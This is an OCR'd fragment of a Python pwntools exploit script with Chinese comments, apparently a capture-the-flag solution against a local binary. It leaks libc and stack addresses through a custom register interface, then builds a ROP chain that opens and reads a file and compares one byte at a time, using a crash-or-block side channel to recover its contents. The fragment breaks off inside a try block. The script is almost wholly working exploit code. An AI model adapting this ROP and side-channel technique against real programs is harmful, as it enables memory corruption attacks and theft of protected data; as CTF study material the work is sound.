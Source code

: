 ```python
    write_func(pop_rdx)
    write_other(0)
    write_func(pop_rax)
    write_other(2)
    write_func(0x47656) #syscall ; pop rbp ; ret
    write_other(0)

    #read
    write_func(pop_rdi)
    write_other(3)
    write_func(pop_rsi)
    write_func(bss)
    write_func(pop_rdx)
    write_other(0x100)
    write_func(libc.sym['read'])

    #cmp
    write_func(pop_rax)
    write_other(ch)
    write_func(pop_rsi)
    write_func(bss+ 1 +idx)
    write_func(mg1)

    write_func(pop_rdi)
    write_func(bss)
    #如果cmp指令不等于，则会jne 0x1925c5  ->   sbb  eax, eax ; sbb eax, 0FFFFFFFFh
    #add rax,rdi后rax的值可能为一个非法地址，那么mg2  mov qword ptr [rax], -1就会让程序崩掉，因为[rax]非法访问内存
    write_func(add_rax_rdi)
    write_func(mg2)

    #否则就进入read，read是可以进行阻塞的
    write_func(pop_rdi)
    write_other(0)
    write_func(pop_rsi)
    write_func(bss)
    write_func(pop_rdx)
    write_other(0x100)
    write_func(libc.symbols["read"])

def pwn(ch,idx):
    p = process("/home/zp9080/PWN/pwn")
    global pay
    pay=b''
    #得到libcbase
    malloc(0x400)
    swapreg0(0,14)
    reg_subvalue(0,0x1ed010) #reg[0]=libcbase
    swapreg0(7,0)  #reg[7]=libcbase

    #泄露栈地址，reg[1]=retaddr
    reg_addvalue(0,0x1ef600) #reg[0]=&environ
    swapreg1(1,0) #reg[1]=stack
    reg_subvalue(1,0x000190) #retaddr

    write_rop(ch,idx)

    p.sendlineafter(':',check)
    try:
            p.sendafter("Man!what can I say?hahaha:", pay.ljust(0x600, b"\x00"))
            a = p.recvuntil("abcd",timeout = 0.7)
            print(a)
            if a == b'':
                p.sendline('123')
```